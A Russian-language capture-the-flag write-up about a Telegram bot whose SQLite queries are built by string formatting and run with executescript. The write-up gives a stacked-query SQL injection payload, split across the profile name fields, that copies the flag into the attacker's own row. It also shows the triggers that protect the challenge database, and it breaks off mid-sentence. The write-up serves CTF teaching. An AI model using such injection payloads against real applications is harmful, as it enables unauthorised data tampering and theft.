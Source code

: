 ```
        ...
```
При просмотра на `/start`, обращаем внимание, что:
* данные в наш запрос подставляются форматированием, что позволяет нам произвести `sql инъекцию`
* используется метод `executescript`, который позволяет нам выполнить несколько запросов к базе за одно обращение
```
try:
        username = c.execute("SELECT name FROM users WHERE id={}".format(str(call.from_user.id))).fetchone()
    except sqlite3.Error:
        username = ("Anon",)

    bot.send_message(call.from_user.id, callback_options[callback] + username[0] if username else "Anon")
```
Теперь смотрим код отправки приветствия по нажатию на кнопку и складываем все части мозайки.

Нужно, применив sql инъекцию, вторым запросом после INSERT сделать UPDATE имени того-же значения, которые было вставлено. Для этого составим следующий пейлоад(вместо проверки id можно также проверять name на старое имя):
```
'); UPDATE users SET name=(select name from users where id=0) WHERE id=your_id --
```
Поскольку бот берет значения из имени и фамилии в телеграме, то разбиваем наш пейлоад на 2 части (пейлоад слишком большой, не влезет в одно поле) и ставим в соответствующие поля в настройках своего профиля. Нажимаем /start и получаем флаг.

`P.S` рубрика `#за_сценой`:

Пришлось немного попотеть, чтобы сделать базу устойчивой к случайным дропам таблиц и удалениям флага, вот что было сделано для этого:
```
    c.execute('''CREATE TRIGGER IF NOT EXISTS ensureFlagSafeOnUpdate
            AFTER UPDATE ON users
            BEGIN
                UPDATE users SET name='{}' WHERE id='0';
            END;'''.format(FLAG))

    c.execute('''CREATE TRIGGER IF NOT EXISTS ensureFlagSafeOnDelete
            AFTER DELETE ON users
            BEGIN
                UPDATE users SET name='{}' WHERE id='0';
            END;'''.format(FLAG))

    c.execute('''CREATE TRIGGER IF NOT EXISTS ensureFlagSafeOnInsert
            AFTER INSERT ON users
            BEGIN
                UPDATE users SET name='{}' WHERE id='0';
            END;'''.format(FLAG))

    c.execute('''CREATE TRIGGER IF NOT EXISTS ensureFlagNotDuplicated
            AFTER UPDATE ON users
            WHEN (SELECT COUNT(*) from users) = (SELECT COUNT(*) from users WHERE name='{}')
            BEGIN
                UPDATE users SET name='Whoops, some error. Please type /start again';
            END;'''.format(FLAG))
```
И еще при обработке ошибок:
```
if "no such table" in str(sql_e):
            init_db()
            bot.send_message(chat_id, "Please type /start again")
            return
```
И еще при обработке запросов: